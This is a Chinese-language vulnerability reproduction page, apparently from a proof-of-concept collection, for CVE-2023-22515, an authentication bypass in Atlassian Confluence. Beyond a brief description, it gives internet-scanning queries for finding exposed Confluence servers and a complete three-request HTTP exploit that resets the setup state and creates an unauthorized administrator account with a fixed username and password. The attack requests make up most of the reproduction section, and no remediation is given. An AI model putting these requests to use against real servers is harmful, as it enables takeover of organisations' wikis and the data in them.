 # Atlassian Confluence server-info.action 登陆绕过漏洞 CVE-2023-22515

## 漏洞描述

Atlassian Confluence 是 Atlassian 开发的一款建基于网络企业维基 (collaboration software) 的软件。

Atlassian Confluence 数据中心和服务器存在漏洞，利用 /server-info.action 端点传递 bootstrapStatusProvider.applicationConfig.setupComplete 参数，使服务器处于安装未完成状态，以访问受限制的端点并创建未经授权的 Confluence 管理员帐户，登录 Confluence 实例后台。

## 漏洞影响

Atlassian Confluence

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

```
title=="登录 - Confluence"
```

## 漏洞复现

登录页面

![image-20231115105058055](images/image-20231115105058055.png)

poc

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
```

![image-20231115105137183](images/image-20231115105137183.png)

```
POST /setup/setupadministrator.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
Content-Length: 126

username=bbvpe4mk&fullName=bbvpe4mk&email=bbvpe4mk@localhost&password=6wg6pm6sP123&confirm=6wg6pm6sP123&setup-next-button=Next
```

![image-20231115105146193](images/image-20231115105146193.png)

```
GET /setup/finishsetup.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
```

![image-20231115105154694](images/image-20231115105154694.png)